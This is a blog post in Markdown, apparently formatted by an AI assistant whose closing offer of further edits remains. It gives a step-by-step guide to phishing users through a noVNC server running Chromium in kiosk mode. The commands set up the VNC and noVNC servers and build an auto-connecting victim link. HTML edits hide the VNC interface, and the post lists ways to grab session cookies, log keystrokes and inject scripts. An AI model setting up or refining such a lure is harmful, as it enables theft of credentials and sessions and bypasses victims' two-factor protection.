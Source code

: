 ```yaml
---
layout: post
title: Exploiting noVNC for 2FA Bypass
date: 2025-02-07
categories: [Exploits]
tags: [Exploits, noVNC, 2FA Bypass]
permalink: /posts/Exploiting-noVNC-for-2FA-Bypass/
image:  
  path: /assets/img/pfp.png
---
```



```markdown
# Using noVNC for Credential Acquisition and Bypassing 2FA

noVNC is both a JavaScript library for VNC clients and an application built on top of this library. Compatible with any modern browser, including mobile versions for iOS and Android, noVNC allows the web browser to function as a VNC client, enabling remote access to a machine.

So, how can we use noVNC to acquire credentials and bypass 2FA? We set up a server with noVNC, start Chromium (or any other browser) in Kiosk mode, and direct it to the desired website for user authentication (e.g., accounts.google.com). By sending the link to the target user, when they click on the URL, they will access the VNC session without realizing it. And since we’ve already configured Chromium in Kiosk mode, the user experience will be just a web page, as expected.

## Exploitation Possibilities

The exploitation possibilities of this method are vast:

- Inject JS into the browser
- Use an HTTP proxy connected to the browser to log all activities
- Terminate the VNC session after user authentication
- Capture the browser session token (Right-click > Inspect > Application > Cookies) after the user disconnects
- Run a background keylogger
- Or get creative and find other approaches (remember, the server is yours).

## noVNC Setup and Demonstration

### Deploy a Kali Linux Instance

Use any cloud service provider or deploy locally to set up a Linux machine. I will use Kali Linux for this demonstration because I prefer it, but you can choose any other Linux distribution you are comfortable with.

### Install TigerVNC

First, you need to install VNC software. I tested two options: X11vnc and TigerVNC. After several tests, I chose to use TigerVNC.

```shell
sudo apt update
sudo apt install tigervnc-standalone-server tigervnc-xorg-extension tigervnc-viewer
```

### Set Up a VNC Password

```shell
vncpasswd
```

On Kali Linux, I didn’t need to create the `xstartup` file, but if you encounter any errors, you can configure it manually.

```shell
nano ~/.vnc/xstartup
```

Paste or write the following:

```bash
#!/bin/sh
xrdb "$HOME/.Xresources"
xsetroot -solid grey
x-terminal-emulator -geometry 80x24+10+10 -ls -title "$VNCDESKTOP Desktop" &
x-window-manager &
# Fix to make GNOME work
export XKL_XMODMAP_DISABLE=1
/etc/X11/Xsession
```

Add execution permissions:

```shell
chmod +x ~/.vnc/xstartup
```

Now restart the VNC server, remembering that you will choose the screen size settings according to your needs. noVNC automatically adjusts to the browser's screen size, but do your own testing.

```shell
vncserver -depth 32 -geometry 1920x1080
```

### Download and Run noVNC

```shell
git clone https://github.com/novnc/noVNC.git
```

OR

```shell
apt install novnc
```

Now run noVNC locally or publicly; here are the commands.

In some cases, you will need to configure SSH to run on localhost.

First, check which port your TigerVNC server is running on:

```shell
vncserver -list
```

Example: 5901, 5902, 5903, etc.

Run the commands below for each purpose.

- To run noVNC:

```shell
./noVNC/utils/novnc_proxy --vnc localhost:5901
```

- To set up an SSH tunnel:

```shell
ssh -L 6080:127.0.0.1:6080 root@server
```

- To run publicly using port 8081:

```shell
ufw allow http
./noVNC/utils/novnc_proxy --vnc 0.0.0.0:5901 --listen 8081
```

### Accessing VNC and Running the Browser in Kiosk Mode

Now access your VNC and run the browser in Kiosk mode. I used Chromium, but you can use whatever suits your needs.

```shell
chromium --no-sandbox --app=https://gmail.com --kiosk
```

### How to Send the URL to the "Victim" to Connect Automatically

```shell
http://127.0.0.1:6080/vnc.html?autoconnect=true&password=YOUR-PASSWORD
```

The `autoconnect=true&password=VNCPASSWORD` will make the user authenticate automatically. If you want to rename the query parameter, you can modify the `vnc.html` file.

### Modifying the CSS to Remove Visual Elements

noVNC displays a custom loading page, a VNC control bar, and some additional unnecessary visual elements that should be removed.

Open `vnc.html`, find the `divs` below, and add the CSS style shown.

```html
<!-- Hide unnecessary items -->
<div id="noVNC_control_bar_anchor" class="noVNC_vcenter" style="display:none;">
<div id="noVNC_status" style="display:none"></div>

<!-- Makes the loading page white -->
<div id="noVNC_transition" style="background-color:white;color:white">
```

## Important Notes

- You are giving remote access to your machine! It should not have anything valuable stored on it.
- Any logged data should likely be sent to a remote machine.
- Do not use the root account. You should set up a restricted user account that uses the VNC service.
- You should also configure the Kiosk mode more restrictively.
```

This combines all the Markdown text, including proper code blocks for shell commands and HTML. You can now paste it directly into your Markdown file or editor. Let me know if you need any further adjustments!
